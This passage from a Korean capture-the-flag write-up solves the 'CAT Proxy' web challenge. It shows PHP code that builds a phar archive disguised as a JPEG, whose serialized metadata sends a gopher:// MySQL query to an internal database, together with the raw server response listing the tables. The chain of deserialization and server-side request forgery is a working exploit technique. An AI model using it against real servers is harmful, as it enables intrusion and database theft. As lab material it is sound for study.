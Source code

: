 ```python
```

위에서 얻은 url로 object를 생성해줍니다.

```php
$phar = new PharData("get_tables.tar");
$phar["AAABshpik"] = "FLAGFLAGFLAG";
$obj = new Requests('gopher://catproxy_db_1:3306/_%9d%00%00%01%85%a2%1e%00%00%00%00%40%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%63%61%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%61%03%5f%6f%73%09%64%65%62%69%61%6e%36%2e%30%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%32%33%34%34%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%08%35%2e%36%2e%36%2d%6d%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%03%66%6f%6f%03%62%61%72%42%00%00%00%03%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%74%61%62%6c%65%73%20%77%68%65%72%65%20%74%61%62%6c%65%5f%73%63%68%65%6d%61%3d%27%63%61%74%27%3b%01%00%00%00%01');
$phar->setMetadata($obj);
```

여기서 생성된 phar 파일을 헤더를 `\xFF\xD8\xFF` 로 변경하고 .jpg로 확장자를 바꿔서 업로드 해준 후 phar wrapper를 통해 서버에 요청하면 mysql에서 table list를 볼 수 있습니다. ( shpik_tables.jpg )

**filename :** phar%3a%2f%2fshpik_tables.jpg

```
HTTP/1.1 200 OK
Date: Wed, 28 Nov 2018 12:08:45 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.2.2
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 2578
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
<head>
	<title>CAT Proxy</title>
	<link rel=stylesheet href="index.css">
</head>
<body>
    <div class="menu">
        <div style="text-align: left; padding-left: 50px;font-size: 20px; font-style: bold;">Cat Proxy</div><br>
        <a href="?p=home" class="menu_a">Home</a>
        <a href="?p=nyaa" class="menu_a">Nyaa</a> <a href="?p=profile" class="menu_a">Profile</a> <a href="?p=logout" class="menu_a">Logout</a>    </div><script>alert('Already uploaded file.\nPlease change filename.');history.back();</script></body>
</html><div class="description">J   
5.7.24 g  ci   ?           0VMk7Zh. mysql_native_password           N  definformation_schematablesTABLES
TABLE_CATALOG
TABLE_CATALOG    ?    L  definformation_schematablesTABLESTABLE_SCHEMATABLE_SCHEMA @   ?    H  definformation_schematablesTABLES
TABLE_NAME
TABLE_NAME @   ?    H  definformation_schematablesTABLES
TABLE_TYPE
TABLE_TYPE @   ?    @  definformation_schematablesTABLESENGINEENGINE @   ?     B  definformation_schematablesTABLESVERSIONVERSION?         H  definformation_schematablesTABLES
ROW_FORMAT
ROW_FORMAT 
   ?     H  	definformation_schematablesTABLES
```